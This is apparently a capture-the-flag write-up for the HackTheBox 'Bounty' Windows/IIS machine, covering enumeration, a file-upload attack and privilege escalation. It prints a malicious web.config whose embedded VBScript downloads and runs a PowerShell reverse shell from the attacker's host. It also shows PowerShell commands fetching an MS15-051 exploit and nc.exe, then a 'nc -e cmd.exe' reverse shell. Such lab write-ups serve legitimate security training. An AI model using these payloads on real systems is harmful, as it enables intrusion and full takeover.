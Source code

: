 # Bounty

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.240     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 08:57 EDT
Nmap scan report for 10.129.85.240
Host is up (0.012s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

This is a pretty old machine AND its running Windows, so there's probably some kind of IIS exploit here.

### File Upload

The web application just shows an image of a wizard:

<figure><img src="../../../.gitbook/assets/image (95) (1).png" alt=""><figcaption></figcaption></figure>

A quick check on the requests reveals this is running Microsoft-IIS/7.5.

<figure><img src="../../../.gitbook/assets/image (79) (3).png" alt=""><figcaption></figcaption></figure>

We can run a quick `gobuster` scan with `aspx,html,txt` extensions, and find a few files.

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://10.129.85.240/ -t 100 -x aspx,html,txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.85.240/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              html,txt,aspx
[+] Timeout:                 10s
===============================================================
2023/05/06 09:00:00 Starting gobuster in directory enumeration mode
===============================================================
/transfer.aspx        (Status: 200) [Size: 941]
/uploadedfiles        (Status: 301) [Size: 0]
```

The ASPX page was a simple file upload.&#x20;

<figure><img src="../../../.gitbook/assets/image (36) (5).png" alt=""><figcaption></figcaption></figure>

I tried to upload an ASPX reverse shell, but it gives me an Invalid File error.

<figure><img src="../../../.gitbook/assets/image (37) (6).png" alt=""><figcaption></figcaption></figure>

This can be bypassed via NULL byte by appending `%00.jpg` to the end of the filename in Burp.

<figure><img src="../../../.gitbook/assets/image (42) (8).png" alt=""><figcaption></figcaption></figure>

However, when trying to view the file at `/UploadedFiles/rev.aspx`, it returns an error instead of a shell.

<figure><img src="../../../.gitbook/assets/image (30) (8).png" alt=""><figcaption></figcaption></figure>

So uploading ASPX files doesn't work. But how about `web.config` files? It is possible to upload one that has VBScript embedded within it to execute commands. This is because we can potentially overwrite the existing `web.config` file and replace it with ours that executes commands.

Here's the file I used:

```markup
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.13/Invoke-PowerShellTcp.ps1')")
%>
```

This would download a simple Powershell reverse shell from our device. We can directly upload the `web.config` file without bypassing any file extension checks. Afterwards, visiting the `/UploadedFiles/web.config` directory would make the machine download and run the script, giving us a reverse shell.

<figure><img src="../../../.gitbook/assets/image (85) (5).png" alt=""><figcaption></figcaption></figure>

We can grab the user flag.

## Privilege Escalation

### MS15-051

I did a quick check on the machine's OS by running `systeminfo`.

```
PS C:\windows\system32\inetsrv> systeminfo

Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          5/6/2023, 9:04:11 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,575 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,587 MB
Virtual Memory: In Use:    508 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.85.240
                                 [02]: fe80::4112:6417:a55f:fe64
                                 [03]: dead:beef::4112:6417:a55f:fe64
```

This was running Windows Datacenter 2008 and had no hotfixes applied. This means it is vulnerable to MS15-051.&#x20;

{% embed url="https://github.com/hfiref0x/CVE-2015-1701/tree/master/Compiled" %}

We can download the exploit and `nc.exe` to the machine via Powershell and run `exploit.exe` like this:

```powershell
(New-Object Net.WebClient).DownloadFile('http://10.10.14.13/ms15-051x64.exe', 'C:\users\merlin\desktop\exploit.exe')
(New-Object Net.WebClient).DownloadFile('http://10.10.14.13/nc64.exe','C:\users\merlin\desktop\nc.exe')
C:\users\merlin\desktop\exploit.exe "C:\users\merlin\desktop\nc.exe -e cmd.exe 10.10.14.13 4444"
```

This would give us a reverse shell as SYSTEM.

<figure><img src="../../../.gitbook/assets/image (34) (3).png" alt=""><figcaption></figcaption></figure>

Rooted!
